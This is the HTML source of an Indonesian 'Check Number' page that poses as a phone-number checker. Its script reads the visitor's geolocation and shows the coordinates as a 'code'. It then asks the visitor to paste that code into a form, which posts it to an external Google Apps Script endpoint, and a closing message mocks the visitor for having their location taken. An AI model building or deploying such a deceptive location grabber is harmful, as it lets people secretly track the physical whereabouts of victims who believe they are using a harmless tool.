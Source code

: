 <html lang="in">
<head>
				<link rel="stylesheet" href="adsense.css">
				<title>Nomor aku</title>
				
					<script src="https://ajax.googleapis.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
					
					
				
				<style>
						.judul{
				background-color:gray;
				position:fixed;
				right:0; left:0;
				top:0; padding:14px;
				
}

.jud {
				background-color:gray;
				width:27px;
				height:4px;
				opacity:;
				margin-left:20px;
				display:flex;
				justify-content:space-between;
				flex-direction:column;
				margin-top:10px; margin-bottom:-30px;
				
}

.jud span{
				background-color:white;
				color:red;
				width:17px;
				height:3px;
				display:block;	
				margin-left:-3px; margin-bottom:-30px;
				
				
				
}
		
								
								
						body{
						 background-color:gainsboo;
						 }
						 
						 .tempat{
						 color:black;
						 text-align:center;
						 font-size:15px;
						 display:no;
						 
						 }
							
							.kirim{ 
							display:none;
							margin-left:30%;
						  display:blok;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;
							}
							
							.lokasi{
							display:none;
							margin-left:20%;
						  display:blck;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
							
							
							}
							
							.nomor{
							font-weight:bold;
							text-align:center;
							color:#e8491d;
							font-size:20px;
							}
							
							
						  .number{
						  margin:auto;
						  display:block;
						  width:60%;
						  text-decoration:none;
						  border:none;
						  background-color:gainsboro;
						  padding:10px;
						  border-radius:3px;
						  font-size:13px;
						  }
						  
						  .no{
						  margin:auto;
						  display:block;
						  width:40%;
						  border:none;
						  text-decoration:none;
						  padding:10px;
						  background-color:black;
						  border-radius:3px;
						  color:white;
						  font-weight:bold;}
						  
						  
						  .kode{
						  text-align:center;
						  font-size:20px;
						  font-weight:bold;
						  color:#e8491d;
						  display:none;
						  }
						  
						  .miring{
						  text-align:center;
						  color:gainsboro;
						  
						  display:none;}
						  
						  .lastman{
						  text-align:center;
						  font-weight:bold;
						  display:none;
						  font-size:30px;}
						  
						  .bawah{
						   padding:20px;
  position:fixed;
bottom:0;
right:0;
left:0;
background-color:grey;
  
						  }

.check{
text-align:center;
color:white;
font-size:12px;
}


							.na{
				margin-top:-21px;
				text-align:center;
	     font-family:cursive,"Brush Script MT";
	     color:white;
}	
		

	

	

	

	

						
								
								
				</style>
</head>
<body>
				
				<div class="judul">
								<button class="jud">
												<span></span>
												<span></span>
												<span></span>
								</button>
								<h3 class="na">Check Number</h3>
				</div>
			
				
				
				
				
				
				
				<form name="Test-Fb">
				<p class="nomor" id="nomor">Masukan Nomor HP</p>
				<input type="text" id="number" class="number" placeholder="+62..."><br>
				<p id="kode" class="kode">Kode Otorisasi</p>
				<p id="demo" class="tempat"></p>
				<button class="no" onclick="getLocation()" id="pilih" >Kirim</button>
				<script>
							var x = document.getElementById("demo");

function getLocation() {
  if (navigator.geolocation) {
    navigator.geolocation.getCurrentPosition(showPosition);
  } else { 
    x.innerHTML = "Geolocation is not supported by this browser.";
  }
}

function showPosition(position) {
  x.innerHTML = " " + position.coords.latitude + 
  "<br>" + position.coords.longitude;
}
				</script>
				
				
				
				<p class="miring" id="miring"><em>Salin code lalu masukan </em></p>
				
				<input type="text" name="gambar" id="lokasi" class="lokasi" placeholder="####"><br><br>
				<button class="kirim" id="kirim" type="submit">Kirim</button></form>
				
				<p class="lastman" id="lastman">Selamat anda kena shadap location</p>
				<br><br><br><br>	<br><br>
				
				<div class="bawah">
						<p class="check">Check Number, Copyright &copy; 2019</p>
				</div>
				
				<script>
				$(document).ready(function(){
  $("#pilih").click(function(){
    $("#lokasi").fadeIn(1000);
    $("#kirim").fadeIn(1000);  
    $("#nomor").fadeOut(100);
    $("#number").fadeOut(100);
    $("#pilih").fadeOut(100); 
    $("#kode").fadeIn(1000); 
    $("#miring").fadeIn(1000);
    $("#demo").fadeIn(1000);
  });
});

</script>


<script>
				$(document).ready(function(){
  $("#kirim").click(function(){
    $("#kirim").fadeOut(100);
    $("#lokasi").fadeOut(100);
     $("#miring").fadeOut(100);
    $("#kode").fadeOut(100);
    $("#lastman").fadeIn(1000);
    
    });
});
    
</script>




<script>
  const scriptURL = 'https://script.google.com/macros/s/AKfycbwz07cfyR66rBWYsLgmyHbNoqyzUeDm3Y-zQIdCkrZ7zNEdR0DQwJFJa6LFVcWSOxnJ/exec'
  const form = document.forms['Test-Fb']

  form.addEventListener('submit', e => {
    e.preventDefault()
    fetch(scriptURL, { method: 'POST', body: new FormData(form)})
      .then(response => console.log('Success!', response))
      .catch(error => console.error('Error!', error.message))
  })
</script>
				
</body>
</html>


